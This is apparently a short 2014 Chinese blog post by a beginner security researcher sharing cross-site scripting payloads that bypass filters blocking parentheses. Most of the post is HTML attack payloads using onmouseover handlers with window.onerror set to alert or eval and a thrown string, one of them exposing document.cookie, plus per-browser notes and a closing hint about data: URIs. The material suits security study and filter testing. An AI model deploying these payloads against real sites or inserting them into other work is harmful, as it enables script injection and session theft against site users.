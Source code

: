﻿title: XSS绕过()检查
date: 2014-12-17 16:09:34
tags: xss
categories: 编程
---

前两天刚刚提交了一个xss漏洞注册了个乌云帐号，激动了好几个小时。感觉终于入了门了，这几个月的书没白看。
对于那些过滤了()的情况，可以用下面的payload来试一下，亲测最新chrome firefox IE：
``` html
<!-- IE work -->
<!-- chrome unCaught -->
<!-- firefox unCauht exception -->
<a onmouseover="javascript:window.onerror=alert;throw document.cookie">xxx</a>
<!-- <img src=x onerror="javascript:window.onerror=alert;throw 1"> -->

<!-- chrome work -->
<!-- IE not work -->
<!-- firefox not work -->
<a onmouseover=javascript:window.onerror=eval;throw'=alert\x28"xss"\x29';>xxxxx</a>

<!-- chrome not work -->
<!-- IE work -->
<!-- firefox not work -->
<a onmouseover=javascript:window.onerror=eval;throw'alert\x28"xss"\x29';>xxxxxxx</a>
```

还有一种是如果能够控制URL属性内容，可以使用data协议来绕过()的检查。
